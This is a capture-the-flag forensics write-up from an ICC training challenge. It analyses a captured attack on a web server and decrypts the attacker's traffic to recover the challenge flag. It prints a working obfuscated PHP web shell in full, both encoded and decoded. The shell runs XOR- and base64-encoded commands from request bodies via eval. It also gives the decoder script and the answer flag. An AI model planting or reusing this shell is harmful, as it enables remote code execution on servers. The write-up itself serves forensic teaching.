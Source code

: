```yaml
---
layout: post
title: ICC - ShellCode
date: 2022-03-21 15:10 +0200
author: Arcee
tags: challenge forensics 
categories: [ICC]
---
```

Challenge of the training platform for ICC.

## Description: 
You have to investigate recent attack on your web server.
Since attackers were very skilled, they used specially designed PHP shell to access the server.
Your friends from Incident Response Department managed to get network capture file with malicious traffic containing the secret flag. 

Goal: Find the secret flag in the pcap

### Searching through the shell code:
Shell code contains some interesting strings which are later used and decoded:
```
$W='@e5@va5@l(@gzuncompre5@ss(5@@x(@base65@4_d5@ecode(5@$m[15@]),$5@k)));5@$o=@5@ob_5@get_contents();';

$E='$k5@="465@96bd5@9a";$5@kh="8ecf79155df0";5@$kf5@="5fb5@97fdc5@8317";$p=5@5@"BL450m5@5@L15@WeCi5@9eMA";';
 
$T='0;5@($j<5@$5@c&&$i<$l);$5@5@j++,$i5@++){$o.=$t{$i}5@5@^$k{$j};}5@}ret5@urn $5@o;}i5@f (@preg_ma5@';
$D=str_replace('bQ','','cbQreatbQe_bQfubQncbQtibQon');

$h='function x(5@$t,$5@k){$c=strle5@n($k);$l=st5@rlen(5@$t);$5@o="";fo5@r(5@$i=0;$5@i<$l;)5@{for($j=';

$l='tch(5@"/$k5@h(.+)$5@k5@f/"5@,@file_get5@_contents("php://i5@5@nput5@"),5@$m)==15@)5@ {@ob_start();';

$X='@ob_e5@nd5@_cle5@an()5@;$r=@base65@4_encode(5@@x(@gzco5@mpress(5@$5@o),5@$k));prin5@t("$p$kh5@$r$kf");}';

$G=str_replace('5@','',$E.$h.$T.$l.$W.$X);
$i=$D('',$G);
$i();
```

There are some str_replaces so we try to use the php interactive shell ` php -a ` to run this and to find out what the values of `$G` and `$I` are.

$G:
```
$k="4696bd9a";$kh="8ecf79155df0";$kf="5fb97fdc8317";$p="BL450mL1WeCi9eMA";function x($t,$k){$c=strlen($k);$l=strlen($t);$o="";for($i=0;$i<$l;){for($j=0;($j<$c&&$i<$l);$j++,$i++){$o.=$t{$i}^$k{$j};}}return $o;}if (@preg_match("/$kh(.+)$kf/",@file_get_contents("php://input"),$m)==1) {@ob_start();@eval(@gzuncompress(@x(@base64_decode($m[1]),$k)));$o=@ob_get_contents();@ob_end_clean();$r=@base64_encode(@x(@gzcompress($o),$k));print("$p$kh$r$kf");}
```

$i:
```
$D('',$G); = create_function('', $G);
```
create_function returns the unique function name of the function just created, so when we call ```$i();```, we execute the code specified in $G.

What is the code in $G?
```
$k="4696bd9a";
$kh="8ecf79155df0";
$kf="5fb97fdc8317";
$p="BL450mL1WeCi9eMA";
function x($t,$k){
	$c=strlen($k);
	$l=strlen($t);
	$o="";
	for($i=0;$i<$l;){
		for($j=0;($j<$c&&$i<$l);$j++,$i++){
			$o.=$t{$i}^$k{$j};
		}
	}
	return $o;
}
	
if (@preg_match("/$kh(.+)$kf/",@file_get_contents("php://input"),$m)==1) {
	@ob_start();
	@eval(@gzuncompress(@x(@base64_decode($m[1]),$k)));		
	$o=@ob_get_contents();
	@ob_end_clean();
	$r=@base64_encode(@x(@gzcompress($o),$k));
	print("$p$kh$r$kf");
}

```

php://input is a read-only stream that allows us to read raw data from the request body. It returns all the raw data after the HTTP headers of the request, regardless of the content type. 

### Finding PCAP packets
We see that the output of the shell code is in the shape of \\$p\\$kh\\$r\\$kf, where \\$r is the only unkown. So we can search in the .pcap file if we find packets which contain the string \\$p\\$kh. 
Which gives us 12 packets:

All:
BL450mL1WeCi9eMA8ecf79155df0TKoKB9FUjWE0NRo3bg==5fb97fdc8317\n

BL450mL1WeCi9eMA8ecf79155df0TKoKAlRWD4E2NjrAY2A=5fb97fdc8317\n

BL450mL1WeCi9eMA8ecf79155df0TKrqGSlI604bGe75Sq30gDY2Hx9mnw==5fb97fdc8317\n

BL450mL1WeCi9eMA8ecf79155df0TKq8Yqv2olEki8IdHiiTjSYAZ0OuQa4tOqU2fmvA+LW0ch3GkJPQZAQfDa/wxEMYyeLToIb5UoRpEAkK6ObGOF1zn/QHxazIqTP9MCTLsU9MJznE9uBM9B98gnaJOVcApAk3PO1kmXUyfHutCXBdEnTb3VfdK07zYAepPDZzvMs5BNTTQ/WVcftyxbHQMqG9dViPJC
 
BL450mL1WeCi9eMA8ecf79155df0TKoKBVVUCmc0NSc3ZQ==5fb97fdc8317\n
 
BL450mL1WeCi9eMA8ecf79155df0TKoKAlBSDIM2NjrJY2w=5fb97fdc8317\n
 
BL450mL1WeCi9eMA8ecf79155df0TKpM+aNpulE4M+lNxJwypb51GRIhED5L7rStAErWc6dbZzazYbauLtvti1J7diPK8oTvlNWkm4UYiThRIONyH7c74XGJJEK6qGwu7+Es0NPelI62lZzynoy9VL0ZfidFYfgTWmCT/pzHXYVj+ICgL9vOWc2BZ1DfBhvqlFyAiyZ25fb97fdc8317\n
 
BL450mL1WeCi9eMA8ecf79155df0TKqKBlJWiWE0NTI3YQ==5fb97fdc8317\n
 
BL450mL1WeCi9eMA8ecf79155df0TKoKAlNQDYU2NjrFY2c=5fb97fdc8317\n
 
BL450mL1WeCi9eMA8ecf79155df0TKoy/yoxcap9em7+TtJrKX8EDYcqKo1VfgeIBlNUDikGAwgHKVYPUwJ4dHtRUA6ANjYH0m795fb97fdc8317\n
 
BL450mL1WeCi9eMA8ecf79155df0TKoKAlFWC2M0NMc2nA==5fb97fdc8317\n
 
BL450mL1WeCi9eMA8ecf79155df0TKq8Yqv2olEki8IdHiiTjSYAZ0OuQa4tOqU2fmvA+LW0ch3GkJPQZAQfDa/wxEMYyeLToIb5UoRpEAkK6ObGOF1zn/QHxazIqTP9MCTLsU9MJznE9uBM9B98gnaJOVcApAk3PO1kmXUyfHutCXBdEnTb3VfdK07zYAepPDZzvMs5BNTTQ/WVcftyxbHQMqG9dViPJC
  
Now we can write a piece of code that reverses the operations in the php shell code: 
We first need to only get the \\$r piece of the message, then base64_decode it, unxor it (which the function x can do, as it is invertible) and then guncompress. Which then gives us the decrypted message. Message 11 gives us the flag:

### Decryption

We decrypt all the packets with the following script. All the 12 packet texts are in the textarray array, we then use the x function from the code and the following decrypt php code to decrypt: 
```
foreach($textarray as $text) {
		# Filter away the text that we do not need.
		$text2 = str_replace([$p,$kf,$kh] , "", $text);
		
		# Next, decode the text with base64:
		$decodedtext = @base64_decode($text2);
		#print $decodedtext;
		
		# UNXOR:
		$o = @x($decodedtext, $k);
		#print $o;
		
		#Gunzip:
		$oo = @gzuncompress($o);
		print $oo . "\n";
	}
```

Where we can find the flag text in message 11: 
The flag is: fb148ca92d484070b5446b3233eef174
